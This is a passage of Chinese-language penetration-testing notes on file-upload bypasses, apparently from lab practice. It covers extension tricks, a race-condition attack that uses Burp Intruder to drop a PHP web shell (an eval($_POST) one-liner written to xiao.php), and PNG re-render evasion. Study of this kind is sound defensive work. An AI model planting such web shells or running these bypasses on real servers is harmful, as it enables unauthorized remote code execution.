 ![image-20240422135807616](D:\Infiltration\笔记\note\图片\image-20240422135807616.png)



通过返回数据包查看是否上传成功

![image-20240422162359243](D:\Infiltration\笔记\note\图片\image-20240422162359243.png)

php3成功上传并解析

![image-20240422162431472](D:\Infiltration\笔记\note\图片\image-20240422162431472.png)

### 条件竞争

先上传后判断处理



访问1.php文件就创建带shell的xiao.php文件

```
<?php fputs(fopen('xiao.php','w'),'GIF89a <?php eval($_POST["pass"]);?>');?>
```

![image-20240422172328552](D:\Infiltration\笔记\note\图片\image-20240422172328552.png)



将访问1.php的数据包放进intruder下

![image-20240422172830470](D:\Infiltration\笔记\note\图片\image-20240422172830470.png)

将模式设置为无payloads，并永远执行，使其一直访问1.php文件

![image-20240422172902991](D:\Infiltration\笔记\note\图片\image-20240422172902991.png)



再将上传文件的数据包放入Intruder

![image-20240422173344107](D:\Infiltration\笔记\note\图片\image-20240422173344107.png)

将模式设置为无payloads，并永远执行，使其一直上传

![image-20240422173451397](D:\Infiltration\笔记\note\图片\image-20240422173451397.png)

等待碰撞成功后，访问xiao.php，成功写入并解析

![image-20240422180455085](D:\Infiltration\笔记\note\图片\image-20240422180455085.png)



### 二次渲染

上传了图片就会被服务器二次渲染，找到未被渲染部分进行插入木马。



PNG一句话写入 PLTE 数据块
